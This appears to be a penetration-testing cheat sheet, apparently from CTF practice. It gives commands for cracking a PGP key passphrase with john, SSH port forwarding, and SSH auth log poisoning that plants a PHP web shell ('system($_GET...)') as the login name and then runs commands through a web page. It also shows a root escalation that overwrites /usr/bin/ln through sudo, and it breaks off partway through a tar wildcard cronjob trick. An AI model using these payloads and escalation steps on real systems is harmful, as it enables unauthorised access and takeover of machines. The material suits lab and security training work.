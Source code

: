 ### Decrypting PGP key
If you have `asc` key which can be used for PGP authentication then 
* `john key.asc > asc_hash`
* `john asc_hash --wordlists=path_to_wordlist`

#### Having pgp cli
* `pgp --import key.asc`
* `pgp --decrypt file.pgp`

### killing a running job in same shell
```bash
# Find it's job number
$ jobs
[1]+  Running                 sleep 100 &

# Kill the jobs
$ kill %1
[1]+  Terminated              sleep 100
```

### SSH Port Forwarding
```bash
$ ssh -L <port_that_is_blocked_>:localhost:<map_blocked_port> <username>@<ip>
```

### SSH auth log poisoning
- Login as any user to see that it gets logged then try to login with a malicious php code

    ```bash
    $ ssh '<?php system($_GET['a']); ?>'@192.168.43.2
    ```

- Then 

    ```
    http://ip/page?a=whoami;
    ```

### Getting root with ln (symlink)
If we have permissions to run /usr/bin/ln as root we can onw the machine

```bash
$ echo 'bash' > root
$ chmod +x root 
$ sudo /usr/bin/ln -sf /tmp/root /usr/bin/ln
$ sudo /usr/bin/ln
```

### Tar Exploitation
When ever you see a cronjob running with a command `cd /<user>/andre/backup tar -zcf /<folder>/filetar.gz *` go to that folder from which a backup is being created and running these command in that directory 
